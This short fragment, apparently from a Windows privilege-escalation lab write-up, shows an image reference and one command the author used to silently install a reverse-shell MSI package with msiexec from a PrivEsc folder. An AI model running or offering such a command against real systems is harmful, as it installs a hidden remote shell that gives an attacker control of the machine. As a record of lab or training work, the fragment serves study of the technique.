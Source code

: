 I used below command in cmd to run my malicious reverse shell msi executable

```
msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
```


